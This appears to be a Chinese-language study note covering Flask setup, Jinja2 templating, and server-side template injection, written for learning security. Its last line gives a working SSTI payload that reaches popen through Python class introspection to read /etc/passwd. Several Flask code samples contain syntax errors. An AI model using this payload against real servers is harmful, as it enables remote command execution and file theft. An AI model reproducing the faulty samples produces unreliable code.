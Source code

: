 # ,python venv环境安装

`cd /opt/flask1`

`source ./bin/activate`

#运行完发现命令行前面多了个(flask)

`deactivate`          #退出虚拟环境

# flask

flask是一个使用python编写的轻量级Web应用框架

模板引擎使用Jinja2

`vim demo.py`       内容如下

```
from flask import Flask
app = Flask(__name__)

@app.route('/')
def hello():
	return "hello,ggbo"
	
if __name__='__main__':
	app.run()
```

`app = Flask(__name__)`是获取名字,内部运行时name==main,外部运行时name等于python文件的文件名

`if __name__='__main__':
	app.run()`

就是只有内部运行时才会执行

`python3 demo.py`

只能在虚拟机中内部访问

把最后一行代码改为

`app.run(host='0.0.0.0')`

可以在物理主机上也访问

如果改为:

`app.run(debug=True,host='0.0.0.0')`

#调试程序的时候可以用,当配置修改的时候,会重启服务,成熟的产品不可以用它

也可以在app.run()中加port=来指定端口,但是换端口之后debug无法自动更改端口,需要重启服务



# flask变量及方法

demo.py

```
from flask import Flask
app = Flask(__name__)

@app.route('/aaa/<name>')
def hello(name):
	return "hello,%s" % name
	
if __name__='__main__':
	app.run()
```

`<name>`表示传入的参数,访问url是加上/aaa/ggbo就会显示

hello,ggbo

```
from flask import Flask
app = Flask(__name__)

@app.route('/aaa/<name>')
def hello(name):
	return "hello,%s" % name

@app.route('/int/<int:postID>')
def id(postID)
	return " %d " % postID
	
if __name__='__main__':
	app.run()
```

只接受整型的常量

## Flask HTTP方法

示例代码:

```
@app.route('/login',methods = ['POST','GET'])
def login():
	if request.method == 'POST':
		print(1)
		user = request.form['ben']
		return redirect(url_for('success',name = user))         #redirect重定向到/success/user
	else:
		print(2)
		user = request.args.get('ben')
		return redirect(url_for('success',name = user))
```



# Flask模板

## 视图函数

主要作用:生成请求的响应

处理业务逻辑>>>返回相应内容

把业务逻辑和表现内容放在一起,会增加代码复杂度和维护成本



**使用模板:**使用静态的页面html展示动态的内容(运算和数据分开)

模板是一个相应文本的文件,其中占用符(变量)表示动态部分,告诉模板引擎器具体的值需要从数据中获取

使用真实值替换白能量,在返回最终得到的字符串,这个过程称为**"渲染"**

Flask使用Jinja2模板引擎来进行渲染



## render_template

加载html文件,默认文件路径在templates下

![image-20240416234353046](https://cdn.jsdelivr.net/gh/chenppxx/picture1/image-20240416234353046.png)

## render_template_string

用于渲染html字符串,直接定义内容

![image-20240416234416626](https://cdn.jsdelivr.net/gh/chenppxx/picture1/image-20240416234416626.png)



# 模板注入漏洞

## Flask漏洞

成因:

渲染模板时,没有严格控制对用户的输入

可能造成任意文件读取和RCE远程控制后台系统

 ![image-20240417170044693](https://cdn.jsdelivr.net/gh/chenppxx/picture1/image-20240417170044693.png)



![image-20240417170219297](https://cdn.jsdelivr.net/gh/chenppxx/picture1/image-20240417170219297.png)



## SSTI

![image-20240417170348678](https://cdn.jsdelivr.net/gh/chenppxx/picture1/image-20240417170348678.png)



# 继承关系和魔术方法

![image-20240417171115920](https://cdn.jsdelivr.net/gh/chenppxx/picture1/image-20240417171115920.png)

![image-20240417171831466](https://cdn.jsdelivr.net/gh/chenppxx/picture1/image-20240417171831466.png)

也可以使用:

`print(c.__class__.__mro__)`   #直接显示上面的所有类

`print(c.__class__.__mro__[1].__subclasses__())`

#找到B类下面的所有类(数组形式)

`print(c.__class__.__mro__[1].__subclasses__()[1])`

#调用D



## 魔术方法

`__class_`:查找当前类型的所属对象

`__base__`:沿着父子类往上找一个类

`__mro__`:查找当前类上面的所有类

`__subclasses__()`:查找所有子类

`__init__`:查看类是否重载

`__globals__`:函数会以字典的形式返回当前对象的全部全局变量

`{{''.__class__.__base__.__subclasses__()[117].__init__.__globals__['popen']('cat /etc/passwd').read()}}`
